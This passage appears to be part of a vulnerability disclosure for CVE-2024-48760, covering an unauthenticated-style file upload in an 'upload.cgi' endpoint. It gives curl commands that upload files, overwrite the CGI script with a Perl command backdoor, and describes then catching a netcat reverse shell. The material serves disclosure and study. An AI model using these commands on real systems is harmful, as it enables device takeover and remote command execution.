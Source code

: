 `curl -s -X POST -u maxi:maxi123 'http://localhost/api/upload.cgi' -F 'file_name=README_server.txt' -F "leases_file=@README.txt"`



![](files/CVE-2024-48760-1.png)


### Upload a backdoor

The attacker can directly use a *python script* that uploads the backdoor (execute commands, restore config., etc) or use the same method as before, **overwrite** the file `upload.cgi` with another file (eg. `perlcmd.cgi`); for example:

`curl -u gipadmin:PASSWORD -F "file_name=upload.cgi" -F "leases_file=@perlcmd.cgi" "http://localhost/api/upload.cgi"`

Then, just call it from the browser

![](files/CVE-2024-48760-8.png)



## Reverse Shell

After the backdoor is uploaded, the attacker can start a netcat listener in a console in order to receive a remote connection from the victim (a reverse shell). The attacker needs to call the backdoor with the right commands.

